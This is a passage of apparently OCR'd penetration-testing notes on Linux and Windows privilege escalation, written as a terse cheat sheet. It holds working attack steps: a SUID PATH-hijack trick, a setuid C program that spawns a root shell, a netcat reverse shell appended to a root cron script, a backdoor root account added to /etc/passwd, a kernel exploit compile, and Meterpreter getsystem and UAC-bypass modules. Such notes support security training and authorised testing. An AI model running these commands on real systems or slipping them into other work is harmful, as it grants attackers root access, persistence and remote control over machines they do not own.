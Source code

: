 	    ls -ls /etc/ | grep .conf
	    ls -ls /var/www/html/
		Joomla: look for configuration.php
		Wordpress: look for wp-config.php
	SUID Exploitation (example):
		Check GTFOBins First
		If suid program uses a command w/o full path (ex. chmod):
			in /tmp:  echo "/bin/bash" > chmod; chmod +x chmod; export PATH=.:${PATH};  run suid: /usr/local/bin/docker-security
	Setuid C Program:
	    #include <unistd.h>
	    int main()
	    {
		setuid(0);
		execl("/bin/bash", "bash", (char *)NULL);
		return 0;
	    }
	    Compile:  gcc file.c -o file
	Examples:
		ex. Insecure File Permissions - Cron
		    grep "CRON" /var/log/cron.log
		    add reverse shell line to file executed as root
		    echo >> user_backup.sh 
		    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh
		ex. Insecure file Permissions - /etc/passwd
		    adding user
		    openssl passwd evil
		    echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
		    su root2
		ex. Kernel Vulns - CVE-2017-1000112
		    cat /etc/issue, uname -r, arch
		    on target:  gcc 43418.c -o exploit
		ex. Docker Escape techniques: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

## Windows:

	**Start w/ general enumeration: see what rights you have; check OS version; see what's installed
	Meterpreter:
	    **getsystem
	    use priv
	    **use post/multi/recon/local_exploit_suggester  ;  use exploit/windows/local/...
	    use exploit/windows/local/bypassuac
	LOLBAS Techniques:  https://lolbas-project.github.io/
	Scripts:
	    windows-privesc-check2.exe --dump -G
	    Windows Exploit Suggester (2017 and older):
		git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
		apt-get update, apt-get install python-xlrd
		within Windows-Exploit-Suggester directory:  python windows-exploit-suggester.py --update
		do systeminfo on target and save it in txt, then run:  python windows-exploit-suggester.py --database 2018-02-08-mssb.xls --systeminfo sysinfo.txt
		    Or:  python windows-exploit-suggester.py --database 2018-02-08-mssb.xls --systeminfo sysinfo.txt --local
		    python3 windows-exploit-suggester.py --database 2021-03-03-mssb.xls --systeminfo win7sp1-systeminfo.txt 
		If systeminfo didn't show hotfixes, do:  wmic qfe list full, save it as hotfixes.txt and run:
		    python windows-exploit-suggester.py --database 2018-02-08-mssb.xls --systeminfo sysinfo.txt --hotfixes hotfixes.txt
	    WinPEAS (.exe/.bat):
		determine if NET framework >4.0 is installed (winPEAS.exe):
		    reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\full" /v version